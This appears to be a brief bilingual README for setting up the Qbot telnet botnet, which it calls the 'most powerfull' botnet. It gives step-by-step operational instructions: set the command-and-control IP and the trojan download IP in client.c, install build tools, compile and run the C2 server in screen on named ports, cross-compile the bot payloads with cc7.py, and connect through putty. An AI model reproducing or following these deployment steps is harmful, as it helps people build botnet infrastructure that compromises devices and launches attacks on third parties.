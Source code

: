 # 待补充
## qbot
Qbot Botnet. Telnet botnet, most powerfull and strong botnet. requirements: 2 linux server.

yum install wget git gcc python2 python3 tar bzip2 


1. 修改client.c
commServer ip:port1
以及木马下载ip

2. 安装gcc screen python vim  tar tar bzip2

apt-get install gcc screen python2 python3 vim   tar bzip2 

3. 编译server
gcc -o server server.c -pthread


screen ./server port1 port2 port3
screen ./server 2323  6666 7777

port3 > port2

 
CTRL + A + D //退出screen


python2 cc7.py client.c ip

新建login.txt

username password


putty
ip port3 
